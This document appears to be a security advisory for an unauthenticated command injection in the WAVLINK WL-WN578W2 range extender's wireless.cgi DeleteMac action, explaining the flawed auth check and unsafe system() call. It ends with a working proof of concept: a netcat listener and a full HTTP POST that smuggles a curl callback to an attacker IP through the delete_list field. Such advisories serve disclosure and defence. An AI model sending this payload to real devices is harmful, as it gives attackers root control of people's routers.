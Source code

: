 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (wireless.cgi DeleteMac)

PS:



1.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).

2.  **No authentication required**: No cookie or login credentials needed—exploitable directly.

## Overview

An unauthenticated command injection vulnerability (with potential buffer overflow) exists in the `DeleteMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `delete_list` parameter is unsanitized and directly concatenated into system commands, which are executed via the `sub_404850` function (contains unsafe `vsprintf` and `system` calls). Attackers can send POST requests with `page=DeleteMac` to inject arbitrary `root`-level commands—no login required.



![Vulnerability Flow: DeleteMac Unauthenticated Injection](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/wireless.cgi` (POST method, no login required)

*   **Trigger Condition**: Request parameter `page=DeleteMac`

*   **Vulnerable Parameter**: `delete_list`

*   **Vulnerability Type**: Unauthenticated Command Injection (with Potential Buffer Overflow)

*   **CVE ID**: Pending

*   **Impact**: 1. Execute arbitrary `root` commands (exfiltrate data, plant backdoors) without credentials; 2. Trigger buffer overflow via overly long input (due to `vsprintf` in `sub_404850`).

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **No Effective Auth Check**: The `ftext` function’s authentication logic (via `sub_404DBC()`) fails to block unauthenticated requests, allowing direct access to the `DeleteMac` action.

2.  **Unsanitized Command Construction**: In `sub_402E04`, the `delete_list` parameter (extracted via `sub_4053E4`) is directly concatenated into the command string `/etc/lighttpd/www/cgi-bin/del_mac.sh y%s y%s y%s y%s &` via `sprintf`—no filtering of command separators (e.g., `;`, `&&`).

3.  **Unsafe Command Execution (sub\_404850)**: The constructed command is passed to `sub_404850`, which has two critical flaws:

*   Uses `vsprintf(byte_41BC84, a1, va)`: No length limit for the target buffer (`byte_41BC84`), leading to potential buffer overflow if the command exceeds 256 bytes.

*   Appends output redirection (`1>/dev/null 2>&1`) via `snprintf` and executes the command with `system()`, enabling injected commands to run as `root`.


![Vulnerability Code: sub\_402E04 Command Construction](./imgs/2.png)
![Vulnerability Code: sub\_402E04 Command Construction](./imgs/3.png)



![Vulnerability Code: sub\_404850 Unsafe Execution](./imgs/4.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` via `delete_list`

No login or cookie needed.

#### 1. Start Netcat Listener

On attacker machine (IP: 192.168.10.154):



```
nc -lvnp 1234
```


#### 2. Send Unauthenticated POST Request



```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 120
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.1/wifi_mesh.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=DeleteMac&delete_list=;curl http://192.168.10.154:1234

```

#### 3. Verify Execution

Netcat receives a request from the device (e.g., 192.168.10.1), confirming successful command injection:



![Injection Result: Netcat Captures Request](./imgs/5.png)

